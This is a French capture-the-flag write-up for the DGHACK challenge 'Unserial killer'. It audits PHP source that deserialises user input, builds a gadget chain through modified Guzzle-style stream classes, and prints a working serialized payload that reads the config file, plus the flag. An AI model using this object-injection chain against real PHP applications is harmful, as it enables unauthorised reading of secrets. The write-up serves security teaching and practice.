



# Unserial killer

> Une entreprise vient de se faire attaquer par des hackers ayant récupéré la configuration d'un de leur serveur web.
>
> Auditez le code source du serveur web et trouvez comment ils ont pu y accéder.

## Description

On se connecte sur le site Web, et on arrive sur une page qui nous donne le code source du site.
Pratique.



Voici le code PHP pour la page principale :

index.php
```php
<?php

include_once "functions.php";

$title = "A really secured Company";
$message = display();

?>

<html>
    <head>
        <meta http-equiv="content-type" content="text/html; charset=UTF-8">
        <meta charset="utf-8">
        <title><?php echo $title; ?></title>

        <!-- CSS files -->
        <link href="static/css/bootstrap/bootstrap.css" rel="stylesheet">
        <link href="static/css/bootstrap/font/bootstrap-icons.css" rel="stylesheet">
        <link href="static/css/index.css" rel="stylesheet">
    </head>
    <body>
        <nav class="navbar navbar-expand-md navbar-dark bg-dark fixed-top justify-content-between">
            <div>
                <a class="navbar-brand" href="/"><?php echo $title; ?></a>
                <a class="navbar-brand" href="#Menu">Menu</a>
                <a class="navbar-brand" href="#About">About</a>
                <a class="navbar-brand" href="#Posts">Posts</a>
                <a class="navbar-brand" href="#Shop">Shop</a>
                <a class="navbar-brand" href="#Contact">Contact</a>
            </div>
        </nav>
        <div class="main">
            <div class="icon">
                <i class="bi bi-exclamation-circle" style="font-size: 5rem; color: grey;"></i>
            </div>
            <div class="message">
                <?php echo $message; ?>
            </div>
        </div>

    </body>
</html>
```

Rien de très surprenant, la page inclus le fichier `functions.php` et appelle la fonction `display` qui est ensuite affichée.

Allons voir le fichier en question:

functions.php
```php
<?php

include_once "config.php";
include_once "vendor/autoload.php";

function download()
{
    $zipfile = __DIR__ . "/app.zip";
    if (file_exists($zipfile)) {
        header("Content-type: application/zip");
        header('Content-Disposition: attachment; filename=' . basename($zipfile));
        header("Content-Length: " . filesize($zipfile));
        header("Pragma: no-cache");
        header("Expires: 0");
        flush();
        readfile($zipfile);
        die();
    }
    return "L'archive des sources n'existe pas." . PHP_EOL;
}

function main()
{
    $message = "";
    if (isset($_REQUEST["data"])) {
        try {
            $decoded = base64_decode($_REQUEST["data"]);
            $data = unserialize($decoded);
        } catch (\Throwable $t) {
            var_dump($t);
        }
    } else {
        $message = "<p>Des hackers ont pu accéder à la configuration de tout notre système via notre serveur web.</p>" . PHP_EOL .
            "<p>Decouvrez comment ils ont pu y accéder en auditant les sources du site.</p>" . PHP_EOL .
            "<p>Vous pouvez télécharger les sources en <a href='?download=1'>cliquant ici !</a></p>" . PHP_EOL .
            "<p>N.B: la configuration du système se trouve dans le fichier config.php.<p>" . PHP_EOL;
    }
    return $message;
}

function display()
{
    if (isset($_REQUEST['download'])) {
        $message = download();
    } else {
        $message = main();
    }
    return $message;
}
?>
```

Le fichier est plus intéressant : soit on se dirige sur la page sans argument, et on obtient la page principale, soit on peut mettre l'argument `download` et alors on va récupérer les sources du site, soit on peut mettre un argument `data`: la valeur est alors désérialisée.

D'après le [manuel PHP](https://www.php.net/manual/fr/function.unserialize.php):

> Ne passez pas d'entrée utilisateur non fiable à la fonction unserialize() quelle que soit la valeur de allowed_classes dans options. La délinéarisation peut résulter en une exécution de code chargé et exécuté lors de l'instanciation et l'autochargement d'objet, et ainsi, un utilisateur mal intentionné peut être capable d'exploiter ce comportement.

C'est donc ce qu'on doit exploiter.

## Où est le flag ? Quelles classes sont présentes ?

On voit immédiatement le flag dans le fichier `config.php`:

config.php
```php
<?php

$FLAG = "SET_FLAG_HERE";
```

On a également plusieurs librairies PHP qui sont chargées grâce à `composer`.

C'est probablement avec ces classes qu'on arrivera à créer une classe qui nous permette d'afficher le contenu du flag.

Pour comprendre la désérialisation, j'ai utilisé [cette ressource](https://snoopysecurity.github.io/web-application-security/2021/01/08/02_php_object_injection_exploitation-notes.html).

## Point d'entrée

Le point d'entrée d'une désérialisation, c'est une méthode magique de PHP.
Parmi les plus utiles:
- `__toString()` lorsque la classe est affichée (ce n'est pas le cas ici);
- `__destruct()`: lorsque l'objet est détruit;
- `__wakeup()`: lorsque l'objet est désérialisé.

Les deux dernières nous intéressent, je cherche donc toutes ces méthodes dans les fichiers fournis.



Il n'y en a pas des masses, seulement 4 à regarder:

FnStream.php
```php
/**
     * The close method is called on the underlying stream only if possible.
     */
    public function __destruct()
    {
        die("Removing FnStream Object");
    }

    /**
     * An unserialize would allow the __destruct to run when the unserialized value goes out of scope.
     *
     * @throws \LogicException
     */
    public function __wakeup()
    {
        unset($this->_fn_getMetadata);
        unset($this->_fn_close);
        unset($this->_fn_detach);
        unset($this->_fn_eof);
        unset($this->_fn_isSeekable);
        unset($this->_fn_rewind);
        unset($this->_fn___toString);
        unset($this->_fn_seek);
        unset($this->_fn_isWritable);
        unset($this->_fn_write);
        unset($this->_fn_getContents);
        unset($this->_fn_getSize);
        unset($this->_fn_tell);
        unset($this->_fn_isReadable);
        unset($this->_fn_read);
        echo "Disabling easy peasy attributes" . PHP_EOL;
    }
```

Les fonctions de `FnStream` ne nous aident pas beaucoup, l'une arrête complètement notre programme, l'autre supprime des attributs, ce qui ne nous aide pas à trouver le point d'entrée.

ObjectProphecy.php
```php
public function __wakeup()
{
    throw new \RuntimeException('Prophecy object cannot be instanciated');
}
```

Même constat pour `ObjectProphecy`, on ne va pas aller bien loin avec une exception.

Stream.php
```php
public function __destruct()
{
    $this->customMetadata->closeContent($this->size);
}
```

Heureusement, `Stream` est là: elle appelle la fonction `closeContent` de son attribut `customMetadata`.

On peut donc désérialiser un objet de type `Stream`, auquel on a attribué comme `customMetadata` un autre objet qui implémente la fonction `closeContent`.

## Sortie

En cherchant le point d'entrée, j'ai également trouvé la sortie dans le fichier `FnStream`.

En effet, il a la fonction suivante:

FnStream.php
```php
public function getContents()
{
    $content = "";
    if (isset($this->_fn_getContents) && is_string($this->_fn_getContents)) {
        $file = __DIR__ . $this->_fn_getContents . ".php";
        if ($this->display_content === true) {
            readfile($file);
            echo "Printing interesting file..." . PHP_EOL;
        }
    }
    return $content;
}
```

On doit donc créer un objet `FnStream` tel que `_fn_getContents` soit une chaîne de caractères pointant vers `config.php`, et mettre `display_content` à `true`.

L'inconvénient, c'est que la méthode `__wakeup()` va effacer le contenu de `_fn_getContents`...

On a donc deux défis:
- affecter la bonne valeur après désérialisation à `_fn_getContents`;
- appeler `getContents`.

Ces deux problèmes sont en fait le même problème : on peut facilement affecter la bonne valeur à `_fn_getContents` en appelant les fonctions `allow_attribute` et `register` du `FnStream`.

FnStream.php
```php
/**
 * Register attribute as method
 */
public function register(string $name, $callback)
{
    if (in_array($name, self::$forbidden_attributes) === true) {
        throw new \LogicException('FnStream should never register this attribute: ' . $name);
    }
    $this->{$name} = $callback;
    $this->methods[] = [$name, $callback];
}

/**
 * Authorize an attribute to be set as method callback
 */
public function allow_attribute(string $name)
{
    if (in_array($name, self::$forbidden_attributes, true) === true) {
        $offset = array_search($name, self::$forbidden_attributes, true);
        unset(self::$forbidden_attributes[$offset]);
    }
}
```

Le but est donc d'appeler les fonctions de `FnStream`.

Preuve de concept : je passe la ligne `private $display_content = false;` à `private $display_content = true;` dans `FnStream.php`, puis j'écris la fonction suivante dans `functions.php` et je l'appelle:

```php
function test() {
    $fnstream = new GuzzleHttp\Psr7\FnStream(array());
    $fnstream->allow_attribute("_fn_getContents");
    $fnstream->register("_fn_getContents", "/../../../../config");
    $fnstream->getContents();
}
test();
```

Et le (faux) flag s'affiche en local !

## closeContent?

Revenons à notre point d'entrée.

Je dois trouver une classe implémentant `closeContent`.

Problème : il n'y a aucune fonction de ce nom dans le code !

Mais fort heureusement, les méthodes magiques de PHP nous viennent à nouveau en aide.

En effet, la méthode `__call` est appelée quand on appelle une méthode inexistante sur l'objet, ce qui est parfaitement le cas ici.

Il y a deux telles méthodes: une dans `ObjectProphecy` qui finalement ne m'a pas aidée, l'autre dans `StreamDecoratorTrait`:

StreamDecoratorTrait.php
```php
/**
 * Allow decorators to implement custom methods
 *
 * @param string $method Missing method name
 * @param array  $args   Method arguments
 *
 * @return mixed
 */
public function __call($method, array $args)
{
    $result = null;
    if (is_object($this->stream) && method_exists($this->stream, "decorate")) {
        if (in_array($method, $this->getAllowedMethods()) !== true) {
            $method = $this->custom_method;
        }
        if (is_array($method) !== true) {
            $method = [$method];
        }

        $args = $args[0];

        foreach ($method as $_method) {
            if (is_callable([$this->stream, $_method])) {
                $arguments = array_shift($args);
                $result = $this->stream->$_method(...$arguments);
            }
        }
    }
    // Always return the wrapped object if the result is a return $this
    return $result === $this->stream ? $this : $result;
}
```

A noter que ce n'est pas une classe mais un trait (une sorte de classe abstraite de PHP qui permet d'hériter de toutes les méthodes du trait, sans avoir de double héritage).

Pour trouver une classe qui a ce trait, je recherche la ligne `use StreamDecoratorTrait;`.
J'ai choisi le `NoSeekStream` qui est très proche du trait (seule la fonction `seek` est modifiée).

Cette fonction `__call` a l'air de convenir parfaitement à ce dont on a besoin, puisqu'elle effectue des appels `$this->stream->$_method`.

Il faut donc que `stream` soit notre `FnStream`, et on peut appeler les fonctions avec les bons arguments.

Par ailleurs, `FnStream` a bien une méthode `decorate`, donc la fonction va s'exécuter.

StreamDecoratorTrait.php
```php
public function getAllowedMethods($filter = array('close'))
{
    $classReflection = new \ReflectionClass("GuzzleHttp\Psr7\FnStream");
    $methodsReflections = $classReflection->getMethods();
    $methodNames = array_map(function (ReflectionMethod $methodReflection) {
        return $methodReflection->getName();
    }, array_values($methodsReflections));
    $methodNames = array_diff($methodNames, $filter);
    return $methodNames;
}
```

La fonction `getAllowedMethods` du `StreamDecoratorTrait` ne contient pas `closeContent`: `methods` est donc remplacé par `$this->custom_method`, qu'il va falloir définir.

## Solution

On peut donc créer un `StreamDecoratorTrait` tel que:
- son attribut `stream` soit un `FnStream` avec `display_content` à `true`;
- créer une liste de méthodes à appeler `['allow_attribute', 'register', 'getContent']` et l'assigner à `custom_method`;
- appeler `closeContent` de notre `StreamDecoratorTrait` avec pour argument un tableau avec les arguments des méthodes à appeler.

Pour cela, je configure un objet `Stream` tel que:
- `customMetadata` est le `StreamDecoratorTrait`;
- `size` est le tableau des arguments.

Pour créer la sérialisation, j'ai modifié les constructeurs des différentes classes:

Stream.php
```php
public function __construct($stream, $options = [])
{
    $this->size = array(array("_fn_getContents"), array("_fn_getContents", "/../../../../config"), array(""));
    $this->customMetadata = $stream;
}
```

StreamDecoratorTrait.php
```php
public function __construct(StreamInterface $stream)
{
    $this->stream = $stream;
    $this->custom_method = array("allow_attribute", "register", "getContents");
}
```

FnStream.php
```php
public function __construct(array $methods)
{
    $this->display_content = true;
}
```

Et la construction de la sérialisation :

```php
function test() {
    $fnstream = new GuzzleHttp\Psr7\FnStream(array());
    $noseekstream = new GuzzleHttp\Psr7\NoSeekStream($fnstream);
    $stream = new GuzzleHttp\Psr7\Stream($noseekstream, null);
    echo serialize($stream) . PHP_EOL;
    echo base64_encode(serialize($stream)) . PHP_EOL;
}
test();
```



La sérialisation, pour ceux que ça amuse:

```
O:22:"GuzzleHttp\Psr7\Stream":7:{s:30:"GuzzleHttp\Psr7\Streamstream";N;s:28:"GuzzleHttp\Psr7\Streamsize";a:3:{i:0;a:1:{i:0;s:15:"_fn_getContents";}i:1;a:2:{i:0;s:15:"_fn_getContents";i:1;s:19:"/../../../../config";}i:2;a:1:{i:0;s:0:"";}}s:32:"GuzzleHttp\Psr7\Streamseekable";N;s:32:"GuzzleHttp\Psr7\Streamreadable";N;s:32:"GuzzleHttp\Psr7\Streamwritable";N;s:27:"GuzzleHttp\Psr7\Streamuri";N;s:38:"GuzzleHttp\Psr7\StreamcustomMetadata";O:28:"GuzzleHttp\Psr7\NoSeekStream":2:{s:6:"stream";O:24:"GuzzleHttp\Psr7\FnStream":2:{s:33:"GuzzleHttp\Psr7\FnStreammethods";N;s:41:"GuzzleHttp\Psr7\FnStreamdisplay_content";b:1;}s:13:"custom_method";a:3:{i:0;s:15:"allow_attribute";i:1;s:8:"register";i:2;s:11:"getContents";}}}
```

J'envoie ce payload sur le site et j'obtiens le flag !

Flag: `DGHACK{D_Ont_M3sS_W1th_PhP_0bj3Ct5}`